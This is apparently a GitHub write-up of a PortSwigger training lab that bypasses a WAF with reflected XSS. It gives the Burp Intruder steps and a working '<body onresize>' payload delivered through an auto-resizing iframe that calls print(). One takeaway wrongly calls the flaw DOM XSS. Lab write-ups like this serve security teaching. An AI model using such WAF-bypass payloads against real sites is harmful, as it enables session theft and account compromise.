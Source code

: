 # XSS - Reflected XSS into HTML context with most tags and attributes blocked

## 📌 Lab Details
- **Title**: Reflected XSS into HTML context with most tags and attributes blocked
- **Difficulty**: Practitioner
- **Category**: Cross-site Scripting
- **Lab URL**: https://portswigger.net/academy/labs/launch/626e9e76c544af64db41c2723c8720ab0f25bf6f4c14b8d47c81a2790c472bad?referrer=%2fweb-security%2fcross-site-scripting%2fcontexts%2flab-html-context-with-most-tags-and-attributes-blocked

## 🔍 Summary
This lab has a reflected XSS vulnerability, but a **WAF** blocks most common XSS payloads. To bypass it you must use a less common tag (`<body>`) and an **event attribute** (`onresize`) that the WAF doesn't block.
You trigger `print()` using a clever trick: **resizing an iframe** to fire the `onresize` event.

## 🛠 Steps to Solve
1. Test basic XSS: `<img src=1 onerror=print()>`.
2. Use Burp Intruder to test allowed **tags**. Finds that the `<body>` tag gives a 200 OK response.
3. Use Burp Intruder to test allowed **event attributes**. Finds that the `onresize` is allowed.
4. Craft the final payload. For iframe scr: `"><body onresize=print()>.
5. Send the exploit via **iframe** : `<iframe src="https://0a07007404fd87a5859622f700b3003e.web-security-academy.net/?search=%22%3E%3Cbody%20onresize%3Dprint()%3E" onload=this.style.width='100px'>`.
6. Lab is solved when the victim loads the exploit and `print()` is executed via XSS.
   
## 📖 Key Takeaways
- **WAF** block obvious tags like `<script>` or `<img>`.
- Use **less commong tags** and **event handlers** like `<body>`.
- DOM XSS can hide in **non-obvious places**, even inside `search` fields.
  
## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/4f88d9df-14f9-490d-80f6-34b118444d00)
![image](https://github.com/user-attachments/assets/68f45fee-b2e1-4973-948f-fa1a5219e56f)
![image](https://github.com/user-attachments/assets/f5f77ce3-9bc8-424b-9ece-6a2230c2ba2b)
![image](https://github.com/user-attachments/assets/42bce609-64d7-43fc-8695-78195b8b94c3)
![image](https://github.com/user-attachments/assets/43157383-9d7b-4924-ab3f-4bfe272d5134)
![image](https://github.com/user-attachments/assets/4e5b7d70-070f-4a54-a10f-11776b668087)
![image](https://github.com/user-attachments/assets/b4e12e25-bdcf-43b9-bbb3-879383d325e3)
![image](https://github.com/user-attachments/assets/0409d6d0-c003-4de9-93e0-212cc3e23212)

